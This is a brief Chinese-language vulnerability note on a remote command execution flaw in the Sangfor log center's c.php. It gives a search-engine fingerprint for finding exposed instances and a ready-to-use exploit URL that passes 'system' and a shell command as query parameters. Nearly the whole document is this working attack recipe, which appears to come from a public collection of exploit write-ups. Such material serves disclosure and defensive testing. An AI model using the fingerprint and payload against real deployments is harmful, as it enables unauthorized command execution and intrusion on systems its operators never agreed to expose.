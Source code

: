 # 深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 日志中心
```

## 网络测绘

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](./images/202202091915868.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](./images/202202091915736.png)